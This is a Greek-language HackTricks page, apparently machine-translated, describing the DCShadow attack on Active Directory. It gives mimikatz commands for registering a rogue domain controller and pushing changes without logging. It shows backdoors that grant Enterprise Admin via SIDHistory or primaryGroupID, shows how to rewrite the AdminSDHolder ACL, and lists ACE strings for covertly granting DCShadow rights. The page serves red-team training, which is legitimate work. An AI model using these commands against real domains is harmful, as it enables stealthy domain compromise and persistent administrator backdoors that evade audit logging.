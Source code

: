 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Καταχωρεί έναν **νέο Domain Controller** στο AD και τον χρησιμοποιεί για να **σπρώξει χαρακτηριστικά** (SIDHistory, SPNs...) σε καθορισμένα αντικείμενα **χωρίς** να αφήνει κανένα **καταγραφή** σχετικά με τις **τροποποιήσεις**. Χρειάζεστε δικαιώματα **DA** και να είστε μέσα στο **root domain**.\
Σημειώστε ότι αν χρησιμοποιήσετε λανθασμένα δεδομένα, θα εμφανιστούν αρκετά άσχημες καταγραφές.

Για να εκτελέσετε την επίθεση χρειάζεστε 2 στιγμιότυπα του mimikatz. Ένα από αυτά θα ξεκινήσει τους RPC servers με δικαιώματα SYSTEM (πρέπει να υποδείξετε εδώ τις αλλαγές που θέλετε να εκτελέσετε), και το άλλο στιγμιότυπο θα χρησιμοποιηθεί για να σπρώξει τις τιμές:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Απαιτεί DA ή παρόμοιο" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Σημειώστε ότι **`elevate::token`** δεν θα λειτουργήσει σε `mimikatz1` συνεδρία καθώς αυτό ανέβασε τα δικαιώματα του νήματος, αλλά πρέπει να ανεβάσουμε το **δικαίωμα της διαδικασίας**.\
Μπορείτε επίσης να επιλέξετε και ένα "LDAP" αντικείμενο: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Μπορείτε να σπρώξετε τις αλλαγές από έναν DA ή από έναν χρήστη με αυτές τις ελάχιστες άδειες:

* Στο **αντικείμενο τομέα**:
* _DS-Install-Replica_ (Προσθήκη/Αφαίρεση Αντιγράφου στον Τομέα)
* _DS-Replication-Manage-Topology_ (Διαχείριση Τοπολογίας Αναπαραγωγής)
* _DS-Replication-Synchronize_ (Συγχρονισμός Αναπαραγωγής)
* Το **αντικείμενο Τοποθεσιών** (και τα παιδιά του) στο **δοχείο Διαμόρφωσης**:
* _CreateChild and DeleteChild_
* Το αντικείμενο του **υπολογιστή που είναι καταχωρισμένος ως DC**:
* _WriteProperty_ (Όχι Γράψιμο)
* Το **στόχο αντικείμενο**:
* _WriteProperty_ (Όχι Γράψιμο)

Μπορείτε να χρησιμοποιήσετε [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) για να δώσετε αυτά τα δικαιώματα σε έναν μη προνομιούχο χρήστη (σημειώστε ότι αυτό θα αφήσει κάποια αρχεία καταγραφής). Αυτό είναι πολύ πιο περιοριστικό από το να έχετε δικαιώματα DA.\
Για παράδειγμα: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Αυτό σημαίνει ότι το όνομα χρήστη _**student1**_ όταν συνδέεται στη μηχανή _**mcorp-student1**_ έχει άδειες DCShadow πάνω στο αντικείμενο _**root1user**_.

## Χρήση του DCShadow για τη δημιουργία πισωπόρτων

{% code title="Set Enterprise Admins in SIDHistory to a user" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Αλλαγή PrimaryGroupID (βάλε τον χρήστη ως μέλος των Domain Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Τροποποίηση ntSecurityDescriptor του AdminSDHolder (δώστε Πλήρη Έλεγχο σε έναν χρήστη)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Δώστε δικαιώματα DCShadow χρησιμοποιώντας DCShadow (χωρίς τροποποιημένα αρχεία καταγραφής δικαιωμάτων)

Πρέπει να προσθέσουμε τα παρακάτω ACEs με το SID του χρήστη μας στο τέλος:

* Στο αντικείμενο τομέα:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Στο αντικείμενο υπολογιστή του επιτιθέμενου: `(A;;WP;;;UserSID)`
* Στο αντικείμενο του στόχου χρήστη: `(A;;WP;;;UserSID)`
* Στο αντικείμενο Sites στο δοχείο Configuration: `(A;CI;CCDC;;;UserSID)`

Για να αποκτήσετε το τρέχον ACE ενός αντικειμένου: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Σημειώστε ότι σε αυτή την περίπτωση πρέπει να κάνετε **πολλές αλλαγές,** όχι μόνο μία. Έτσι, στη **συνεδρία mimikatz1** (RPC server) χρησιμοποιήστε την παράμετρο **`/stack` με κάθε αλλαγή** που θέλετε να κάνετε. Με αυτόν τον τρόπο, θα χρειαστεί να **`/push`** μόνο μία φορά για να εκτελέσετε όλες τις κολλημένες αλλαγές στον ψεύτικο server.

[**Περισσότερες πληροφορίες σχετικά με το DCShadow στο ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
